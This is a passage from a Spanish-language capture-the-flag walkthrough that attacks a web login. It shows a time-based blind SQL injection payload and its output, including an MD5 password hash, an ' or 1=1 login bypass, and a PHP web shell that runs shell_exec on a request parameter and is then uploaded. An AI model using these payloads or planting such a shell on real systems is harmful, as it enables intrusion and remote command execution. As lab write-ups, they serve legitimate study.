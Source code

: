 Lo ejecutamos y nos da la contraseña la cual esta en md5
```bash
❯ python3 sqlI.py
[.] SQLI: admin' and if(substring(password,34,1)='9',sleep(0),1)-- -
[◑] Password: a228b12a08b6527e7978cbe5d914531c
```
Bueno esta contraseña no nos va a servir para nada, como el login lo pudimos bypassear con \' or 1=1-\- -,  veamos que podemos hacer en este panel administrativo.

Si le echamos un ojo a la seccion de nuestra cuenta podemos subir un archivo
![](/assets/img/gallery/pan.png)

Creemos un archivo .php atraves del cual poder ejecutar comandos.
```bash
❯ cat shell.php
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Si subimos este archivo y filtramos por shell.php en el codigo fuente de esta pagina podemos ver la ruta en la que se subio el archivo